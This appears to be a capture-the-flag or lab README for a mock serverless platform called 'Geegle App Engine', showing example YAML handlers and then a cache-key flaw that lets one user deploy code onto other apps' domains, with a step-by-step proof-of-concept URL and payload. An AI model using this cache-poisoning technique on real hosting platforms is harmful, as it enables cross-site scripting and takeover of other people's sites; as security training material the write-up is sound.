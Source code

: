 # gae (Geegle App Engine)

Like Amazon Lambda. Deploy your website without worrying about VM/containers.

To use this infra, you only need to submit short pieces of code for python functions, see the following example.

The environment is sandboxed.

**Feel free to write other services using this infra**

## How-To

Example deploy:
```
---
urls:
  "/": |-
    gae_rsp = gaeutils.make_response("Hello World")
  "/ping": |-
    gae_rsp = gaeutils.make_response("Pong")
  "/add": |-
    num_a = int(request['args'].get("a"))
    num_b = int(request['args'].get("b"))
    gae_rsp = gaeutils.make_response("Answer is " + str(num_a + num_b))
  "/error": |-
    gae_rsp = gaeutils.errorpage("Oops our server has fallen asleep")
  "/redirect": |-
    gae_rsp = gaeutils.redirect("https://www.adamyi.com/")
  "/json": |-
    gae_rsp = gaeutils.make_response(gaeutils.json_encode({"json": "is_easy"}))
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Please test if there are any other unintended vulns (user authentication is yet to add, main focus: bypass sandbox, DoS)**

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked

## author
adamyi
